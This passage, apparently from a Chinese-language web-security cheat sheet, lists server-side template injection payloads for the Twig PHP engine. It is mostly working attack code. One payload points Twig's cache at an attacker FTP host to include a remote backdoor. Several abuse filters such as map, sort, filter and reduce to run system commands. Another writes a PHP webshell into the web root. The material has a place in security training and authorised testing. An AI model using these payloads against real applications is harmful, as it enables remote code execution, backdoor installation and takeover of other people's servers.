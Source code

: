 ##### Twig 1.x

以下 Payload 可以调用 `setCache` 方法改变 Twig 加载 PHP 文件的路径，在 `allow_url_include` 开启的情况下我们可以通过改变路径实现远程文件包含

```php
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
```

如果在 `getFilter` 里发现了危险函数如： `call_user_func`。通过传递参数到该函数中，我们可以调用任意 PHP 函数

```php
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
// Output: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

##### Twig 2.x / 3.x

到了 Twig 2.x / 3.x 版本中，`__self` 变量在 SSTI 中早已失去了他的作用，但我们可以借助新版本中的一些过滤器实现攻击目的。

###### map 过滤器

在 Twig 3.x 中，`map` 这个过滤器可以允许用户传递一个箭头函数

```php
{{["id"]|map("system")}}
{{["id"]|map("passthru")}}
{{["id"]|map("exec")}}    // 无回显
{{["phpinfo();"]|map("assert")|join(",")}}
{{{"<?php phpinfo();eval($_POST[whoami])":"/var/www/html/shell.php"}|map("file_put_contents")}}    // 写 Webshell
```

###### sort 过滤器

使用sort 过滤器可以传递一个箭头函数来对数组进行排序

```php
{{["id", 0]|sort("system")}}
{{["id", 0]|sort("passthru")}}
{{["id", 0]|sort("exec")}}    // 无回显
```

###### filter 过滤器

```php
{{["id"]|filter("system")}}
{{["id"]|filter("passthru")}}
{{["id"]|filter("exec")}}    // 无回显
```

###### reduce 过滤器

```php
{{[0, 0]|reduce("system", "id")}}
{{[0, 0]|reduce("passthru", "id")}}
{{[0, 0]|reduce("exec", "id")}}    // 无回显
```

